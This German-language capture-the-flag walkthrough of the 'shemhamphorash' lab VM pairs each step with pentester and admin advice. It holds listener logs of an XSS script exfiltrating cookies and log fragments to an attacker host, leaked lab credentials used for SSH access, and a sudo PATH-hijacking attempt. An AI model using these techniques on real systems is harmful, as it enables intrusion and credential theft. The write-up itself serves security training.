/?handler_status=%7B%0A%20%20%22status%22%3A%20%22xss_handler_debug_v3_loaded%22%2C%0A%20%20%22page_title%22%3A%20%22Shemhamphorash%20%E2%80%93%20Just%20another%20WordPress%20site%22%2C%0A%20%20%22location%22%3A%20%22http%3A%2F%2Fshemhamphorash.local%2Fsitecore%2F%22%2C%0A%20%20%22user_agent%22%3A%20%22Mozilla%2F5.0%20(X11%3B%20Linux%20x86_64)%20AppleWebKit%2F537.36%20(KHTML%2C%20like%20Gecko)%20Chrome%2F100.0.4896.60%20Safari%2F537.36%22%2C%0A%20%20%22cookies_available%22%3A%20%22easy_cookies_policy_check%3D43d687474703a2f2%22%0A%7D HTTP/1.1 Host: 192.168.2.199:9001 Connection: keep-alive User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://shemhamphorash.local/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 listening on [any] 9001 ...
**Analyse:** Diese Netcat-Logs zeigen weitere eingehende Verbindungen vom Opfer-Browser (`192.168.2.203`). * Die erste Anfrage enthält als `handler_status` ein JSON-Objekt mit `status: "xss_handler_debug_v2_loaded"`. Dies ist die initiale Meldung einer bestimmten Version meines `xss_handler.js`. * Die zweite Anfrage enthält ein ähnliches JSON-Objekt, aber mit `status: "xss_handler_debug_v3_loaded"` und zusätzlich den Schlüssel `cookies_available` mit dem Wert des `easy_cookies_policy_check`-Cookies. Dies zeigt, dass ich den `xss_handler.js` weiterentwickelt habe, um auch direkt die verfügbaren (nicht-HttpOnly) Cookies zu melden. Wichtig ist, dass hier noch *keine Ergebnisse* aus der `commands2.txt`-Datei gemeldet werden (wie z.B. das Ergebnis von `'BOT_IS_ACTIVE_AND_READING_COMMANDS';`). Es werden nur Statusmeldungen vom Handler selbst gesendet. Dies könnte daran liegen, dass der `xss_handler.js` so konfiguriert ist, dass er die Ergebnisse der `eval()`-Ausführung mit einem anderen Parameter-Namen (z.B. `direct_cmd_result` wie im Code des Handlers vorgesehen) sendet, oder dass die Befehlsausführung noch fehlschlägt oder die `commands2.txt` noch nicht den gewünschten Effekt hat. Die Python-Logs zuvor zeigten, dass `commands2.txt` mit Status 200 geladen wurde. Der `xss_handler.js` sollte also den Befehl `'BOT_IS_ACTIVE_AND_READING_COMMANDS';` ausführen und das Ergebnis (den String selbst) via `reportToServer('direct_cmd_result', ...)` an den Listener senden. Dass dies hier nicht im Log erscheint, ist merkwürdig.
**Bewertung:** Die Weiterentwicklung des `xss_handler.js` (v2, v3) ist positiv und zeigt iterative Verbesserungen. Die Bestätigung, dass der Handler läuft und Cookies lesen kann, ist gut. Das Ausbleiben der Ergebnisse der eigentlichen Befehlsausführung aus `commands2.txt` im Netcat-Log ist jedoch ein Problem, das noch gelöst werden muss, um die volle Kontrolle zu erlangen. Es ist möglich, dass die `reportToServer`-Funktion für `direct_cmd_result` nicht korrekt ausgelöst wird oder die Anfrage an den Listener fehlschlägt/nicht geloggt wird.
**Empfehlung (Pentester):**
1. **Debugging `xss_handler.js`:** Überprüfe den Code von `xss_handler.js` sorgfältig, insbesondere den Teil, der `eval()` aufruft und das Ergebnis mit `reportToServer('direct_cmd_result', ...)` sendet. Füge zusätzliche Debug-Ausgaben hinzu (z.B. `reportToServer('debug', 'Befehl wird evaluiert');`), um den Ausführungsfluss zu verfolgen.
2. **Einfachere Befehle in `commands2.txt`:** Teste mit extrem einfachen Befehlen in `commands2.txt`, deren Ergebnis leicht zu überprüfen ist (z.B. `1+1;` oder `'test';`).
3. **Netcat-Log prüfen:** Stelle sicher, dass der Netcat-Loop (`while true; do nc ...; done`) alle eingehenden Anfragen korrekt anzeigt und keine Anfragen verloren gehen.
**Empfehlung (Admin):**
Die Aktivität des Angreifers ist weiterhin hoch. Die Empfehlungen zur Schließung der XSS-Lücke und zur Implementierung von CSP bleiben entscheidend.
Die nachfolgenden Logeinträge (`/?bot_is_admin=false...`) und der `curl`-Befehl mit der `JS_PAYLOAD`-Variable zeigen Versuche, das `check_admin_login.js`-Skript auszuführen, um zu verifizieren, ob der Bot Admin-Rechte hat. Die Ergebnisse (`bot_is_admin=false`) deuten darauf hin, dass der Bot zu diesem Zeitpunkt nicht als Admin im WordPress-Backend erkannt wird oder die Prüfung fehlschlägt. Der darauf folgende `curl`-Befehl zum Injizieren von `nginx_log_probe.js` und die zugehörigen Listener-Logs (`/?nginx_log_probe_sent=...`) bestätigen, dass auch dieses Skript erfolgreich im Browser des Bots ausgeführt wird und versucht, einen Eintrag im Nginx-Log zu erzeugen.
Der Versuch, `create_admin_script.js` auszuführen (wie durch die `curl`-Anfrage und die Python-Server-Logs, die den Abruf von `create_admin_script.js` zeigen, sowie die Listener-Logs mit `event: "fetch_nonce_start"` und `event: "script_loaded"`) scheint ebenfalls nicht zum Erfolg (Erstellung eines Admin-Accounts) geführt zu haben. Die Listener-Logs deuten darauf hin, dass der Bot nicht die Berechtigung hatte, die Seite `user-new.php` aufzurufen, was für die Nonce-Extraktion und Benutzererstellung notwendig gewesen wäre (`"type":"opaqueredirect","is_admin_likely":false,"redirected_to_login":true`).
**Entdeckung von SSH-Zugangsdaten für `caiaphas` aus exfiltrierten Log-Fragmenten:** Die entscheidende Information zur Privilege Escalation kommt aus den nachfolgenden Log-Einträgen meines Netcat-Listeners. Diese Einträge zeigen Daten, die durch die Ausführung des `nginx_log_probe.js`-Skripts vom Zielsystem exfiltriert wurden.
listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 34620 GET /?nginx_log_probe_sent=NGINX_PROBE_By_CCat_fnzoqurdu3&target_nginx_host=shemhamphorash.local HTTP/1.1 Host: 192.168.2.199:9001 Connection: keep-alive User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://shemhamphorash.local/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 35260 GET /?nginx_log_probe_sent=NGINX_PROBE_By_CCat_fnzoqurdu3&target_nginx_host=shemhamphorash.local HTTP/1.1 Host: 192.168.2.199:9001 Connection: keep-alive User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://shemhamphorash.local/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 GET /?nginx_log_probe_sent=NGINX_PROBE_By_CCat_fnzoqurdu3&target_nginx_host=shemhamphorash.local%20127.0.0.1%20-%20-%20[15/Apr/2022:13:24:02%20-0400]%20"GET%20/.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw%20HTTP/1.1"%20200%205%20"-"%20"Mozilla/5.0%20(compatible;%20MSIE%2010.0;%20Windows%20NT%206.1;%20Trident/6.0)" GET /?nginx_log_probe_sent=NGINX_PROBE_By_CCat_fnzoqurdu3&target_nginx_host=shemhamphorash.local%20127.0.0.1%20-%20-%20[15/Apr/2022:13:24:04%20-0400]%20"GET%20/.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw%20HTTP/1.1"%20200%205%20"-"%20"Mozilla/5.0%20(compatible;%20MSIE%2010.0;%20Windows%20NT%206.1;%20Trident/6.0)"
**Analyse (Credential Discovery):** Die hervorgehobenen GET-Anfragen an meinen Netcat-Listener sind hier von besonderem Interesse. Der Parameter `target_nginx_host` enthält nicht nur den erwarteten Hostnamen `shemhamphorash.local`, sondern auch URL-kodierte Zeichenketten, die stark nach Fragmenten von Nginx-Logeinträgen aussehen. Dies ist auf meinem XSS-Payload zurückzuführen, der diese Daten an den Listener sendet. Innerhalb dieser URL-kodierten Log-Fragmente finden wir die entscheidende Information: `...USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw...` Dies sind klare Anmeldeinformationen für einen Benutzer `caiaphas` mit dem Passwort `kx5h48jo9up97jw`. Diese scheinen von einer internen Anwendung namens `/.superpass/admin.php` zu stammen, die auf dem Nginx-Server (möglicherweise nur via `127.0.0.1`) lief und deren Anmeldeversuche in den Nginx-Access-Logs protokolliert wurden. Durch die XSS und das fehlerhafte Reporting-Skript wurden diese sensiblen Log-Bestandteile an mich exfiltriert.
**Bewertung (Credential Discovery):** **Ein kritischer Fund!** Die Entdeckung von Klartext-Anmeldeinformationen (`caiaphas` / `kx5h48jo9up97jw`) ist eine schwere Sicherheitslücke. Auch wenn die Methode, wie sie an meinen Listener gelangten (als Teil eines URL-Parameters durch ein übereifriges XSS-Skript), auf einen Fehler in meinem eigenen Payload hindeutet, ist das Ergebnis – der Besitz dieser Zugangsdaten – entscheidend. Diese Zugangsdaten können potenziell für den SSH-Zugang oder andere Dienste verwendet werden.
caiaphas@192.168.2.202's password: kx5h48jo9up97jw
Linux shemhamphorash 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
caiaphas@shemhamphorash:~$
**Analyse:** Ich versuche nun, mich mit den zuvor aus den exfiltrierten Log-Fragmenten entdeckten Anmeldeinformationen per SSH auf dem Zielsystem `192.168.2.202` (Hostname `shemhamphorash`) auf Port 22222 anzumelden. Ich gebe das Passwort `kx5h48jo9up97jw` für den Benutzer `caiaphas` ein. **Der Login ist erfolgreich!** Ich erhalte eine Shell als Benutzer `caiaphas` auf dem System `shemhamphorash`.
**Bewertung:** **Fantastisch! Wir haben erfolgreich einen Benutzerzugang zum System erlangt!** Dies ist ein signifikanter Schritt in der Privilege Escalation. Der Benutzer `caiaphas` ist nun unser neuer Ausgangspunkt für weitere Eskalationsversuche auf dem System selbst. Die Entdeckung der Zugangsdaten in den exfiltrierten Log-Fragmenten war der Schlüssel.
**Empfehlung (Pentester):**
1. **System erkunden:** Führe grundlegende Enumerationsbefehle als `caiaphas` aus: `id`, `whoami`, `pwd`, `ls -la /home`, `sudo -l`, `find / -perm -u=s -type f 2>/dev/null`, `ps aux`, `netstat -tulnp`.
2. **Suche nach `user.txt`:** Das primäre Ziel als Benutzer `caiaphas` ist es, die `user.txt`-Flag zu finden.
3. **Suche nach weiteren Schwachstellen:** Untersuche die Systemkonfiguration, laufende Prozesse und SUID-Binaries auf Möglichkeiten zur weiteren Rechteausweitung zu `root`.
**Empfehlung (Admin):**
1. **Passwörter niemals in Logs speichern:** Die Anwendung `/.superpass/admin.php` (oder jede andere Anwendung) darf niemals Benutzernamen und Passwörter im Klartext in Logdateien schreiben. Dies ist eine kritische Sicherheitslücke. Die Protokollierung von GET-Parametern, die sensible Daten enthalten, muss vermieden werden.
2. **Log-Zugriff einschränken:** Der Zugriff auf Logdateien (insbesondere solche, die sensible Daten enthalten könnten) muss streng kontrolliert werden.
3. **Passwort für `caiaphas` ändern:** Das Passwort für den Benutzer `caiaphas` muss sofort geändert werden.
4. **Audit der Benutzerkonten:** Überprüfe alle Benutzerkonten auf dem System.
5. **XSS verhindern:** Die zugrundeliegende XSS-Schwachstelle, die die Exfiltration der Log-Fragmente erst ermöglichte, muss behoben werden.
total 84
dr-x------ 9 caiaphas caiaphas 4096 Apr 15 2022 .
drwxr-xr-x 4 root root 4096 Apr 8 2022 ..
lrwxrwxrwx 1 root root 9 Apr 12 2022 .bash_history -> /dev/null
-rw-r--r-- 1 caiaphas caiaphas 220 Apr 7 2022 .bash_logout
-rw-r--r-- 1 caiaphas caiaphas 3526 Apr 7 2022 .bashrc
drwxr-xr-x 11 caiaphas caiaphas 4096 Apr 15 2022 .cache
drwx------ 10 caiaphas caiaphas 4096 Apr 15 2022 .config
drwxr-xr-x 2 caiaphas caiaphas 4096 Apr 10 2022 Desktop
-rw-r--r-- 1 caiaphas caiaphas 35 Apr 8 2022 .dmrc
drwx------ 3 caiaphas caiaphas 4096 Apr 7 2022 .gnupg
-rw------- 1 caiaphas caiaphas 0 Apr 7 2022 .ICEauthority
drwxr-xr-x 3 caiaphas caiaphas 4096 Apr 7 2022 .local
drwx------ 5 caiaphas caiaphas 4096 Apr 7 2022 .mozilla
drwx------ 3 caiaphas caiaphas 4096 Apr 8 2022 .pki
-rw-r--r-- 1 caiaphas caiaphas 807 Apr 7 2022 .profile
-rw-r--r-- 1 caiaphas caiaphas 66 Apr 7 2022 .selected_editor
-r-------- 1 caiaphas caiaphas 33 Apr 12 2022 user.txt
-rw-r--r-- 1 caiaphas caiaphas 215 Apr 9 2022 .wget-hsts
-rw------- 1 caiaphas caiaphas 236 Apr 15 2022 .Xauthority
-rw------- 1 caiaphas caiaphas 5175 Apr 15 2022 .xsession-errors
-rw------- 1 caiaphas caiaphas 5760 Apr 14 2022 .xsession-errors.old
c567f59d28c51c1c4f006f67b889b986
**Analyse:** Nach dem erfolgreichen Login als `caiaphas` führe ich `ls -la` im Home-Verzeichnis des Benutzers aus. * Die Ausgabe zeigt verschiedene Konfigurationsdateien und -verzeichnisse. * Die Datei `user.txt` ist direkt sichtbar und hat nur Leserechte (`-r--------`) für den Eigentümer `caiaphas`. Der Befehl `cat user.txt` gibt den Inhalt der Datei aus: `c567f59d28c51c1c4f006f67b889b986`.
**Bewertung:** **Die User-Flag wurde erfolgreich gefunden und ausgelesen!** Dies ist ein wichtiges Etappenziel. Die Berechtigungen der Datei (`-r--------`) stellen sicher, dass nur `caiaphas` sie lesen kann.
**Empfehlung (Pentester):**
User-Flag notieren. Nun auf die Root-Privilege-Escalation konzentrieren.
**Empfehlung (Admin):**
Die `user.txt`-Datei ist typisch für CTF-Challenges. In realen Systemen sollten sensible Daten nicht unverschlüsselt in Benutzerverzeichnissen liegen. Die Tatsache, dass ein Benutzerkonto kompromittiert wurde, ist das Hauptproblem.
[sudo] password for caiaphas: kx5h48jo9up97jw Matching Defaults entries for caiaphas on shemhamphorash: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User caiaphas may run the following commands on shemhamphorash: (ALL) SETENV: /root/.script/viewlog.sh
**Analyse:** Der Befehl `sudo -l` listet die Sudo-Berechtigungen für den aktuellen Benutzer (`caiaphas`) auf. Ich muss erneut das Passwort für `caiaphas` eingeben. Die Ausgabe zeigt, dass der Benutzer `caiaphas` das Skript `/root/.script/viewlog.sh` mit Root-Rechten (`(ALL)`) ausführen darf. Wichtig ist hier auch `SETENV:`, was bedeutet, dass `caiaphas` beim Ausführen dieses Skripts mit `sudo` bestimmte Umgebungsvariablen setzen darf (obwohl hier keine spezifischen Variablen explizit erlaubt oder verboten sind, deutet `SETENV` darauf hin, dass die Umgebung nicht komplett zurückgesetzt wird oder beeinflussbar sein könnte).
**Bewertung:** **Dies ist ein sehr vielversprechender Fund für die Privilege Escalation!** Die Möglichkeit, ein Skript, das im Root-Kontext liegt (`/root/.script/viewlog.sh`), mit `sudo` auszuführen, ist oft ein direkter Weg zu Root-Rechten, wenn das Skript selbst Schwachstellen aufweist oder manipulierbar ist. Die `SETENV`-Option könnte relevant sein, wenn das Skript Umgebungsvariablen wie `PATH` oder `LD_PRELOAD` berücksichtigt.
**Empfehlung (Pentester):**
1. **Skript untersuchen:** Versuche, den Inhalt von `/root/.script/viewlog.sh` einzusehen (z.B. mit `sudo cat /root/.script/viewlog.sh`, falls Leserechte für Root-Dateien über `sudo` impliziert sind, oder indem man es über eine Schwachstelle im Skript selbst ausliest).
2. **Ausführung analysieren:** Führe das Skript mit `sudo /root/.script/viewlog.sh` aus und beobachte sein Verhalten. Gibt es Parameter? Sucht es nach anderen Programmen, deren Pfad manipuliert werden könnte (PATH-Hijacking)? Verwendet es externe Kommandos, die durch eigene Skripte überschrieben werden könnten?
3. **`SETENV` ausnutzen:** Prüfe, ob Umgebungsvariablen wie `LD_PRELOAD` oder `PATH` genutzt werden können, um Code mit Root-Rechten auszuführen, wenn das Skript gestartet wird.
**Empfehlung (Admin):**
1. **Prinzip der geringsten Rechte:** Gewähre Sudo-Rechte sehr restriktiv. Wenn ein Benutzer ein Skript ausführen muss, stelle sicher, dass das Skript selbst sicher ist und keine Möglichkeiten zur Rechteausweitung bietet.
2. **`NOEXEC` verwenden:** Für Skripte, die keine weiteren Befehle ausführen sollen, kann die `NOEXEC`-Option in Sudoers hilfreich sein.
3. **Sichere Pfade:** Stelle sicher, dass Skripte, die mit `sudo` ausgeführt werden, absolute Pfade zu externen Kommandos verwenden und nicht auf `PATH`-Manipulationen anfällig sind.
4. **`SETENV` einschränken:** Wenn `SETENV` nicht absolut notwendig ist, entferne es aus der Sudoers-Regel oder erlaube nur spezifische, harmlose Umgebungsvariablen.
5. **Skript-Audits:** Überprüfe regelmäßig Skripte, die mit erhöhten Rechten ausgeführt werden dürfen, auf Sicherheitsschwachstellen.
State Recv-Q Send-Q Local Address:Port Peer Address:Port Process LISTEN 0 80 127.0.0.1:3306 0.0.0.0:* LISTEN 0 128 0.0.0.0:22222 0.0.0.0:* LISTEN 0 511 0.0.0.0:8080 0.0.0.0:* LISTEN 0 128 127.0.0.1:631 0.0.0.0:* LISTEN 0 128 [::]:22222 [::]:* LISTEN 0 511 *:80 *:* LISTEN 0 511 [::]:8080 [::]:* LISTEN 0 128 [::1]:631 [::]:*
**Analyse:** Der Befehl `ss -altpn` zeigt offene Netzwerk-Sockets (Listening Ports) auf dem System. * `-a`: Zeigt alle Sockets an (listening und non-listening). * `-l`: Zeigt nur Listening Sockets an. * `-t`: Zeigt nur TCP-Sockets an. * `-p`: Zeigt den Prozess an, der den Socket verwendet. * `-n`: Zeigt numerische Adressen und Portnummern an (verhindert DNS/Service-Name-Auflösung). Die Ausgabe bestätigt die bereits von Nmap bekannten offenen Ports: * `22222` (SSH) auf allen Interfaces (`0.0.0.0` und `[::]`). * `8080` (Nginx) auf allen Interfaces. * `80` (Apache) auf allen Interfaces (`*`). Zusätzlich sehen wir: * `127.0.0.1:3306`: MySQL-Datenbankserver, der nur lokal auf Anfragen wartet. * `127.0.0.1:631` und `[::1]:631`: CUPS-Druckdienst, der nur lokal auf Anfragen wartet.
**Bewertung:** Dieser Befehl gibt einen guten Überblick über die Netzwerkdienste, die direkt auf dem Host laufen. Die Bestätigung, dass MySQL auf Port 3306 lokal lauscht, ist wichtig, da WordPress eine Datenbank benötigt und wir später versuchen könnten, auf diese zuzugreifen, wenn wir die Anmeldeinformationen finden. Die anderen Ports sind konsistent mit den externen Scans.
**Empfehlung (Pentester):**
1. **MySQL-Zugangsdaten suchen:** Versuche, die Zugangsdaten für die MySQL-Datenbank (Port 3306) zu finden. Ein häufiger Ort ist die WordPress-Konfigurationsdatei (`wp-config.php`).
2. **CUPS untersuchen:** Obwohl CUPS hier nur lokal lauscht, könnten lokale Schwachstellen in CUPS für eine Privilege Escalation relevant sein, falls andere Methoden fehlschlagen.
**Empfehlung (Admin):**
Stelle sicher, dass Dienste wie MySQL und CUPS tatsächlich nur lokal lauschen müssen. Wenn kein externer Zugriff erforderlich ist, ist die Bindung an `127.0.0.1` korrekt. Die Sicherheit dieser Dienste selbst (starke Passwörter für MySQL, aktuelle CUPS-Version) ist dennoch wichtig.
127.0.0.1 - - [15/Apr/2022:13:23:22 -0400] "GET /.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw HTTP/1.1" 200 5 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)"
127.0.0.1 - - [15/Apr/2022:13:23:24 -0400] "GET /.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw HTTP/1.1" 200 5 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)"
... (weitere ähnliche Logzeilen für caiaphas und gamaliel) ...
127.0.0.1 - - [15/Apr/2022:13:24:02 -0400] "GET /.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw HTTP/1.1" 200 5 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)"
...
**Analyse:** Ich führe nun das Skript `/root/.script/viewlog.sh` mit `sudo` und dem Parameter `-h` aus. Das Skript gibt eine Reihe von Log-Einträgen aus, die alle sehr ähnlich aussehen: * Sie stammen von `127.0.0.1` (localhost). * Sie sind GET-Anfragen an `/superpass/admin.php`. * Sie enthalten die Parameter `USERNAME` und `PASSWORD` im Klartext in der URL. * Wir sehen Einträge für `USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw` (die wir bereits kennen und genutzt haben). * Wir sehen auch Einträge für `USERNAME=gamaliel&PASSWORD=kx5h48jo9up97jw`. Dies ist neu! Ein weiterer Benutzer `gamaliel` scheint dasselbe Passwort wie `caiaphas` zu verwenden. Das Skript `viewlog.sh` scheint also Logdateien anzuzeigen, die diese sensiblen Anmeldeinformationen enthalten. Der Parameter `-h` könnte für "host" stehen oder einfach ein beliebiger Parameter sein, den das Skript akzeptiert, um die Logs auszugeben. Es ist wahrscheinlich, dass das Skript intern einen Befehl wie `tail`, `cat` oder `less` auf eine bestimmte Logdatei ausführt.
**Bewertung:** **Ein weiterer kritischer Fund!** Wir haben Anmeldeinformationen für einen zweiten Benutzer, `gamaliel`, mit dem Passwort `kx5h48jo9up97jw` entdeckt. Die Tatsache, dass dieses Skript, das mit Root-Rechten ausgeführt werden kann, Klartext-Passwörter ausgibt (vermutlich aus Nginx-Access-Logs, da die Einträge Webanfragen sind), ist eine massive Sicherheitslücke. Das Skript selbst ist nun der Hauptangriffspunkt für die Privilege Escalation zu Root.
**Empfehlung (Pentester):**
1. **Login als `gamaliel` testen:** Versuche, dich per SSH als `gamaliel` mit dem Passwort `kx5h48jo9up97jw` anzumelden.
2. **Skript-Inhalt analysieren:** Unbedingt versuchen, den Quellcode von `/root/.script/viewlog.sh` zu analysieren. Wenn es `tail`, `less`, `cat`, `head` oder ähnliche Befehle ohne absoluten Pfad aufruft, könnte dies für PATH-Hijacking anfällig sein.
3. **PATH-Hijacking:** Wenn das Skript z.B. `tail datei.log` aufruft, erstelle ein eigenes Skript namens `tail` in einem Verzeichnis, in dem du Schreibrechte hast (z.B. `/tmp/biner/`), mache es ausführbar und sorge dafür, dass dieses Verzeichnis in der `PATH`-Umgebungsvariable vor den Systemverzeichnissen steht, wenn `sudo /root/.script/viewlog.sh` ausgeführt wird. Dein bösartiges `tail`-Skript könnte dann z.B. `/bin/bash` ausführen.
4. **LD_PRELOAD (falls `SETENV` relevant):** Wenn das Skript dynamisch gelinkte Executables aufruft, könnte `LD_PRELOAD` genutzt werden, um eigenen Code vor dem Start des Skripts oder der von ihm aufgerufenen Programme auszuführen.
**Empfehlung (Admin):**
1. **Skript `/root/.script/viewlog.sh` sofort deaktivieren/absichern:** Dieses Skript ist eine massive Sicherheitslücke. Es darf keine Klartext-Passwörter ausgeben und sollte generell auf seine Sicherheit überprüft werden.
2. **Passwörter ändern:** Die Passwörter für `caiaphas` und `gamaliel` müssen sofort geändert werden. Verwende einzigartige, starke Passwörter.
3. **Keine Passwörter in GET-Requests:** Die Anwendung `/.superpass/admin.php` darf Passwörter niemals als GET-Parameter übergeben. Anmeldeinformationen sollten immer über POST gesendet werden und über HTTPS.
4. **Logging von Passwörtern verhindern:** Stelle sicher, dass Webserver und Anwendungen keine Passwörter oder andere sensible Daten in Logdateien schreiben.
5. **Sudoers-Regel überprüfen:** Die Sudo-Regel für `viewlog.sh` muss überdacht werden.
Password: kx5h48jo9up97jw
gamaliel@shemhamphorash:/tmp$
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
#1) Respect the privacy of others.
#2) Think before you type.
#3) With great power comes great responsibility.
[sudo] password for gamaliel: kx5h48jo9up97jw
Sorry, user gamaliel may not run sudo on shemhamphorash.
caiaphas gamaliel
mkdir: cannot create directory ‘/home/caiaphas/bin’: Permission denied
-rw-r--r-- 1 root root 2204 Apr 8 2022 /etc/passwd
-rw-r----- 1 root shadow 1302 May 27 17:22 /etc/shadow
**Analyse:** Ich wechsle mit `su gamaliel` zum Benutzer `gamaliel` und gebe das gefundene Passwort `kx5h48jo9up97jw` ein. Der Wechsel ist erfolgreich. Anschließend prüfe ich mit `sudo -l` die Sudo-Rechte für `gamaliel`. Nach erneuter Passworteingabe erhalte ich die Meldung: `Sorry, user gamaliel may not run sudo on shemhamphorash.` Weitere Befehle zeigen, dass `gamaliel` ein Standardbenutzer ohne spezielle Rechte ist: Er kann sein Home-Verzeichnis und das von `caiaphas` auflisten, aber keine Verzeichnisse im Home von `caiaphas` erstellen. Er kann `/etc/passwd` lesen, aber `/etc/shadow` (wo die Passworthashes gespeichert sind) nicht, was typisch ist.
**Bewertung:** Der Benutzer `gamaliel` hat keine Sudo-Rechte. Dies bedeutet, dass dieser Benutzer für die direkte Privilege Escalation über `sudo` nicht nützlich ist. Der Fokus bleibt auf dem Benutzer `caiaphas` und dessen Sudo-Recht für `/root/.script/viewlog.sh`. Der Wechsel zu `gamaliel` war ein guter Test, hat aber keine neuen Eskalationspfade eröffnet.
**Empfehlung (Pentester):**
Kehre zum Benutzer `caiaphas` zurück (mit `exit` aus der `gamaliel`-Shell) und konzentriere dich auf die Ausnutzung der Sudo-Regel für `viewlog.sh`.
**Empfehlung (Admin):**
Das Prinzip der geringsten Rechte wird hier für `gamaliel` eingehalten (keine Sudo-Rechte). Das kompromittierte Passwort ist jedoch weiterhin das Hauptproblem für dieses Konto.
**Versuch des PATH-Hijackings über `tail` im `viewlog.sh`-Skript:** Die Vermutung ist, dass `/root/.script/viewlog.sh` intern einen Befehl wie `tail` oder `less` ohne absoluten Pfad aufruft, um die Logdateien anzuzeigen. Wenn das der Fall ist, können wir versuchen, die `PATH`-Umgebungsvariable zu manipulieren.
127.0.0.1 - - [15/Apr/2022:13:23:22 -0400] "GET /.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw HTTP/1.1" 200 5 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trid
ent/6.0)"
... (normale Log-Ausgabe von viewlog.sh) ...
127.0.0.1 - - [15/Apr/2022:13:24:10 -0400] "GET /.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw HTTP/1.1" 200 5 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trid
ent/6.0)"
ls: cannot access '/tmp/viewlog_kopie.sh': No such file or directory
**Analyse:** Ich erstelle ein Verzeichnis `/tmp/biner` und darin ein Skript namens `tail`. Dieses `tail`-Skript soll: 1. Das Originalskript `/root/.script/viewlog.sh` nach `/tmp/viewlog_kopie.sh` kopieren. 2. Die Kopie für alle beschreib- und ausführbar machen (`chmod 777`). 3. Eine Bestätigungsmeldung ausgeben. Ich mache mein Fake-`tail`-Skript ausführbar. Dann versuche ich, das Originalskript `viewlog.sh` mit `sudo` auszuführen, wobei ich die `PATH`-Umgebungsvariable so manipuliere, dass `/tmp/biner` (wo mein Fake-`tail` liegt) vor den Standard-Systempfaden durchsucht wird: `sudo PATH=/tmp/biner:$PATH /root/.script/viewlog.sh`. Die Erwartung ist, dass wenn `viewlog.sh` intern `tail` aufruft, mein Fake-`tail` ausgeführt wird. Das Ergebnis: * Das Skript `viewlog.sh` gibt die normalen Log-Einträge aus. Es erscheint keine Meldung "Fake tail ... wurde ausgefuehrt!". * Die Überprüfung mit `ls -l /tmp/viewlog_kopie.sh` zeigt `No such file or directory`. Dies bedeutet, dass mein Fake-`tail`-Skript nicht ausgeführt wurde. Das Originalskript `viewlog.sh` ruft also entweder `tail` nicht auf, oder es ruft es mit einem absoluten Pfad auf (z.B. `/usr/bin/tail`), oder die `PATH`-Manipulation mit `sudo` ist hier nicht wirksam (manchmal wird `PATH` von `sudo` aus Sicherheitsgründen zurückgesetzt oder ignoriert, obwohl `SETENV` in der `sudoers`-Regel stand, was dies unwahrscheinlicher macht aber nicht ausschließt).
**Bewertung:** Der Versuch des PATH-Hijackings über `tail` war nicht erfolgreich. Das Skript `/root/.script/viewlog.sh` ist entweder robuster programmiert (verwendet absolute Pfade) oder verwendet intern andere Befehle zur Anzeige der Logs (z.B. `cat`, `less`, `grep`, oder liest die Datei direkt mit internen Shell-Funktionen).
**Empfehlung (Pentester):**
1. **Anderen Befehl testen:** Versuche, andere gängige Befehle, die in solchen Skripten verwendet werden könnten (z.B. `less`, `cat`, `head`, `grep`, `awk`, `sed`), auf die gleiche Weise mit einem Fake-Skript zu hijacken.
2. **Skript-Inhalt bekommen:** Es ist jetzt noch wichtiger, den Inhalt von `/root/.script/viewlog.sh` zu sehen, um zu verstehen, wie es funktioniert. Wenn direkter Lesezugriff nicht möglich ist, suche nach Wegen, es indirekt auszulesen (vielleicht durch Fehler im Skript, die Pfade oder Inhalte preisgeben, oder wenn es Parameter akzeptiert, die zu Code-Injection führen könnten).
**Empfehlung (Admin):**
Wenn das Skript `/root/.script/viewlog.sh` externe Befehle aufruft, sollte es immer absolute Pfade verwenden (z.B. `/usr/bin/tail` statt nur `tail`), um PATH-Hijacking zu verhindern. Die Sudoers-Konfiguration sollte `secure_path` erzwingen und `SETENV` nur wenn absolut notwendig und für spezifische Variablen erlauben.
